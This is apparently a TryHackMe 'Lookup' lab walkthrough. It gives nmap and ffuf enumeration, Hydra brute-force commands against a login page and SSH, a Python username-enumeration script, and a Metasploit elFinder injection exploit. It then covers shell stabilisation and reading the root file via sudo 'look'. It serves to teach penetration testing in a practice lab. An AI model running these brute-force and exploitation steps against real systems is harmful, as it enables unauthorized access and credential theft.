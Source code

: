 # 🔍 Lookup THM Walkthrough

A practical pentesting walkthrough involving subdomain enumeration, brute-force login attacks, and post-exploitation with Metasploit.

---

## 📌 1. Recon: Nmap Scan

Run a simple Nmap scan to identify open ports and services:

```bash
nmap -A -F -oN lookup.txt <target_ip>
nmap -Pn -sV -sC -p 22,80 <target_ip>
```

Add target domain to `/etc/hosts`:

```bash
echo "<target_ip> lookup.thm" | sudo tee -a /etc/hosts
```

---

## 🌐 2. Subdomain & Web Content Enumeration

### 🔎 Subdomain Search (FFUF)

```bash
ffuf -u http://lookup.thm -H "Host: FUZZ.lookup.thm" \
-w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -fw 1
```

*(None were found in this case)*

### 📁 Directory/Endpoint Fuzzing

```bash
ffuf -w /usr/share/wordlists/seclists/Discovery/Web_Content/big.txt \
-u http://lookup.thm/FUZZ -e .php
```

---

## 🔐 3. Brute Forcing the Login Page

### 🧪 Attempt #1 – Basic Hydra:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt lookup.thm \
http-post-form "/login.php:username=^USER^&password=^PASS^:Wrong password. Please try again." -IV 64
```

### 🔄 Attempt #2 – Username Discovery First:

```bash
hydra -p aaa -L /usr/share/wordlists/seclists/Usernames/Names/names.txt lookup.thm \
http-post-form "/login.php:username=^USER^&password=^PASS^:username"
```

✔️ Found users: `ADMIN`, `JOSE`

### 🔐 Then, Password Discovery for User

```bash
hydra -l jose -P /usr/share/wordlists/seclists/Passwords/2023-200_most_used_passwords.txt lookup.thm \
http-post-form "/login.php:username=^USER^&password=^PASS^:Wrong" -f -v
```

---

## 🐍 Script: Username Checker

```python
import requests
import multiprocessing

target = 'http://lookup.thm/login.php'
username_file = '/usr/share/wordlists/seclists/Usernames/Names/names.txt'

def user_check(name, target):
    data = {"username": name, "password": "password"}
    response = requests.post(target, data=data)
    if "Wrong password" in response.text:
        print(f"User found: {name}")

try:
    with open(username_file, 'r') as user_file:
        users = user_file.readlines()
    for user in users:
        user = user.strip('\n')
        multiprocessing.Process(target=user_check, args=(user, target)).start()
except FileNotFoundError:
    print(f'Error: File path {username_file} does not exist.')
```

---

## ⚔️ 4. Exploitation with Metasploit

### 🛠️ Search for elFinder Exploit:

```bash
search elfinder
```

Choose **PHP connector injection** and set:

```bash
set RHOSTS files.lookup.thm
set LHOST <your_tun0_ip>
```

---

## 💻 5. Post Exploitation

### 🧷 Spawn a Stable Shell:

```bash
python3 -c "import pty; pty.spawn('/bin/bash')"
export TERM=xterm
```

### 🗂️ Useful Enumeration Commands:

```bash
find / -perm /4000 2>/dev/null
ls -al /home/think
sudo -l
ls -al /usr/bin/look
sudo look '' /root/root.txt
```

---

## 🔐 Optional: Brute Force SSH Access

If you found credentials:

```bash
hydra -l think -P passlist.txt ssh://lookup.thm
```

Then connect:

```bash
ssh think@lookup.thm
```

---

## 📘 Extra Info

- **`look` Command**: Used to search lines that begin with a given string. Great for searching large files quickly.

---

## 🧠 Pro Tips

- Don’t forget to update `/etc/hosts` when using new subdomains or web requests.
- Always use `-v` or `-V` with tools like Hydra to debug or view details.
- Automate boring tasks with small scripts to save time.

---

> ✨ Happy Hacking! Stay curious, stay ethical.
